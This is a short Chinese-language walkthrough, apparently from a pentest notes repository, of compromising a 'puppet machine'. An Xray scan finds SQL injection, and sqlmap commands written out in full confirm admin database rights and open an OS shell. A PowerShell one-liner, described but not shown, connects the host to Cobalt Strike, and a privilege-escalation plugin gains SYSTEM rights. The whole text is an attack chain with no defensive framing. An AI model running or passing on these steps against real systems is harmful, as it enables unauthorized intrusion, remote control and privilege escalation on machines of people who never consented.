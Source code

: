 > **Xray对某傀儡机进行漏洞扫描**

发现某傀儡机存在SQL注入漏洞

![](images/mssql_injection-1-1.jpg)

> **sqlmap对某傀儡机进行SQL注入**

```
sqlmap -r sql.txt -v 3 --batch --is-dba
```

通过`sqlmap`跑post包进行注入发现数据库为`SQL server`，权限为管理员

![](images/mssql_injection-1-2.jpg)

> **通过sqlmap获取shell**

```
sqlmap -r sql.txt -v 3 --batch --os-shell
```

通过`os-shell`执行`whoami`发现为普通用户权限

![](images/mssql_injection-1-3.jpg)

> **CobaltStrike上线提权**

1. 通过`os-shell`执行`powershell`一句话上线`CobaltStrike`

![](images/mssql_injection-1-4.jpg)

2. 以普通用户上线`CobaltStrike`

![](images/mssql_injection-1-5.jpg)

3. 通过提权插件进行提权，成功获取`system`权限

![](images/mssql_injection-1-6.jpg)